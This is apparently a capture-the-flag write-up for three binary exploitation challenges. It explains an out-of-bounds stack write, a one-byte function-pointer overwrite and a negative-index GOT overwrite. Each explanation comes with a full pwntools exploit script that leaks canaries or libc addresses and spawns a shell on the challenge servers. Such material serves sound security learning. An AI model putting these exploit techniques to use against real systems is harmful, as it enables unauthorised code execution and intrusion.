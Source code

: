 ## Exploitation Class

The program allocates a `char data[22][12];`  buffer on the stack, and we can
read and write it.

The vulnerability is here

```c  
unsigned __int64 __fastcall writeData(char *a1)  
{  
 unsigned int v2; // [rsp+4h] [rbp-14h]  
 unsigned __int64 v3; // [rsp+8h] [rbp-10h]

 v3 = __readfsqword(0x28u);  
 puts("Which entry to write?");  
 v2 = 0;  
 __isoc99_scanf("%u", &v2;;  
 if ( v2 <= 0xFC )  
 {  
   puts("What to write?");  
   read(0, &a1[12 * v2], 0xCuLL);  
 }  
 return __readfsqword(0x28u) ^ v3;  
}  
```

It ensures that index is `<= 0xfc`, however, it should be `idx * 12 <= 0xfc`,
so this leads to a index out of bound.

Also, there is no null termination here, so we can leak some data.

There is stack canary here, so we need to leak the canary and libc address.
Because we can read the last element of the array, we can fill all of the
bytes such that there is no null termination from the last element to the data
we want to leak. Then we can leak the data by showing the last element.

After leaking the data, it is very easy to ROP and execute the
`system("/bin/sh")`

```python  
from pwn import *

g_local=False  
context.log_level='debug'

if g_local:  
	sh = process("./exploitClass")#env={'LD_PRELOAD':'./libc.so.6'}  
	MAIN_RET_OFF = 0x20830  
	ONE_GADGET = 0x45216  
	POP_RDI = 0  
	e = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")  
	gdb.attach(sh)  
else:  
	sh = remote("class.uni.hctf.fun", 24241)  
	#sh = process("./exploitClass", env={'LD_PRELOAD':'./libc.so.6'})  
	MAIN_RET_OFF = 0x24223  
	ONE_GADGET = 0x451F9 #0x45254  
	POP_RDI = 0x23BE3  
	e = ELF("./libc.so.6")

def read(idx):  
	sh.send("1\n")  
	sh.recvuntil("Which entry to show?\n")  
	sh.send(str(idx) + "\n")  
	ret = sh.recvuntil("\n")  
	sh.recvuntil("Enter 1 to read, 2 to write and any other number to exit!\n")  
	return ret[:-1]

def write(idx, data):  
	sh.send("2\n")  
	sh.recvuntil("Which entry to write?\n")  
	sh.send(str(idx) + "\n")  
	sh.recvuntil("What to write?\n")  
	sh.send(data)  
	sh.recvuntil("Enter 1 to read, 2 to write and any other number to exit!\n")

sh.recvuntil("Enter 1 to read, 2 to write and any other number to exit!\n")  
write(21, "B" * 12)  
write(22, "C")  
#write(24, "A" * 8 + '\xa0') #return to main  
canary = u64(read(21)[0xc:0xc+8]) - ord('C')  
print hex(canary)  
for i in xrange(0,4):  
	write(22 + i, "B" * 0xc)  
libc_addr = u64(read(21)[0x3c:0x3c+6] + "\x00\x00") - MAIN_RET_OFF

write(22, p64(canary))  
write(24, 'A' * 8 + p32((libc_addr + POP_RDI) & 0xffffffff))  
write(25, p32((libc_addr + POP_RDI) >> 0x20) + p64(libc_addr +
next(e.search("/bin/sh"))))  
write(26, p64(libc_addr + e.symbols["system"]))  
print hex(libc_addr)  
write(29, '\x00' * 0xc)  
sh.send("3\n")  
sh.interactive()  
```

## Important Service

0x401 0 can cause the buffer overflow, which can overwrite one lowest byte of
the function pointer in the stack

```c  
char vulnbuf[1024]; // [rsp+0h] [rbp-420h]  
int (__fastcall *func_addr)(char *, int, int); // [rsp+400h] [rbp-20h]  
//...  
fread(vulnbuf, 1uLL, (signed int)vullen, stdin);  
func_addr(vulnbuf, vullen, v7);  
```

Although there is PIE in this program, the lowest 12 bits will not change due
to the PIE. Initially the function pointer in the stack is `base_addr +
0x11BC`, and the shell function address is `base_addr + 0x11A9`, so if we
change `0xbc` to `0xa9`, the shell function will be called instead.

```python  
from pwn import *

g_local=False  
context.log_level='debug'  
store_idx = 0

if g_local:  
	sh = process("./importantservice")#env={'LD_PRELOAD':'./libc.so.6'}  
	gdb.attach(sh)  
else:  
	sh = remote("importantservice.uni.hctf.fun", 13375)

sh.recvuntil("Please enter width and height e.g.: 5 8\n")  
sh.send(str(0x401) + " 0\n")  
sh.recvuntil("Please provide some data e.g.: 12345\n")  
sh.send("A" * 0x400 + "\xa9")

sh.interactive()  
```

## Kindergarten PWN

In the program, an index is required to be given, and the program will show
the original byte at that index and let you to change it. The problem is that
it did not check the index must be `>=0`

```c  
if ( v5 <= 31 )//v5 < 0  
{  
  printf("the value at %d is %hhd. give me a new value:\n> ", (unsigned
int)v5, (unsigned int)array[v5]);  
  v3 = &v4;  
  if ( (unsigned int)__isoc99_scanf("%hhd", &v4) != 1 )  
    break;  
  array[v5] = v4;  
}  
```

and array is a global variable, and the got table can be overwritten, so we
can use this to leak the libc address and rewrite the got table to
`one_gadget`

```python  
from pwn import *

g_local=False  
context.log_level='debug'  
store_idx = 0

e = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")  
if g_local:  
	sh = process("./kindergarten")#env={'LD_PRELOAD':'./libc.so.6'}  
	#sh = process(['ld.so.2', './user.elf'])  
	gdb.attach(sh)  
else:  
	sh = remote("kindergarten.uni.hctf.fun", 13373)  
	#ONE_GADGET_OFF = 0x4557a

def one_iter(idx, val = None):  
	sh.recvuntil("give me an index:\n> ")  
	sh.sendline(str(idx))  
	sh.recvuntil("the value at " + str(idx)+ " is ")  
	ret = sh.recvuntil(".")  
	sh.recvuntil(" give me a new value:\n> ")  
	ret = int(ret[:len(ret)-1])  
	if val:  
		sh.sendline(str(val))  
	else:  
		sh.sendline(str(ret))  
	return ret & 0xff

def leak_qword(off):  
	ret = 0  
	for i in xrange(0,8):  
		ret |= one_iter(off + i) << (8 * i)  
	return ret

def shoot_qword(off, val):  
	for i in xrange(0,8):  
		one_iter(off + i, (val >> (8 * i)) & 0xff)

libc_addr = leak_qword(0x4018 - 0x4080) - e.symbols["printf"]  
#leak address of `printf`  
print hex(libc_addr)  
shoot_qword(0x4030 - 0x4080, libc_addr + 0x4526a) #0x30 one_gadget  
#rewirte the `exit` function to one_gadget  
sh.recvuntil("> ")  
sh.sendline("asd")

sh.interactive()  
```

Original writeup
(https://github.com/EmpireCTF/empirectf/tree/master/writeups/2018-10-26-P-W-N-
CTF#exploitation-class).